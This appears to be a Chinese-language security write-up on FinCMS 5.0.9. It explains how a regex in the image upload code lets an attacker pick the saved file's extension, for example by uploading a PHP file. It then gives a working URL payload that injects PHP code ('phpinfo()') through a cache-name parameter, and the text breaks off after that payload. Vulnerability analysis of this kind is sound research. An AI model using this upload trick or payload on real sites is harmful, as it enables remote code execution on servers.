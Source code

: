 ```php
                        exit(dr_json(0, '上传错误：'.$this->image_lib->display_errors()));
                        break;
                    }
                }
                list($width, $height, $type, $attr) = getimagesize($dir.'45x45.'.$result[2]);
                !$type && exit(dr_json(0, '图片字符串不规范'));
            }
        } else {

            exit(dr_json(0, '图片字符串不规范'));
        }
    } else {
        exit(dr_json(0, '图片不存在'));
    }
```
问题主要出现在第186行的那一句正则上

```php
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result))
```

在这里主要匹配的类似于"data:image/php;base64,"这种字符串，以"data:"开头，中间有"image/",结尾有";base64,"，但是"image/"和";base64,"之间的字符串只要是任意数字和字母即可。

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-1.png)

最严重的是，开发者在这里将(\w+)匹配到的字符串作为了传入文件的扩展名

```php
第187行 $new_file = $dir.'0x0.'.$result[2];
```

然后文件就直接保存到服务器中了，在这之间没有任何的过滤，可以看一下测试代码

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-5.png)

![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-6.png)

至于路径中的uid，cookie中就有

```php
$dir = SYS_UPLOAD_PATH.'/member/'.$this->uid.'/';
```

## 0x02 代码执行漏洞演示&剖析

### 漏洞演示
先放上payload

```php
index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=action=cache name=MEMBER.1'];phpinfo();$a=['1
```

执行效果
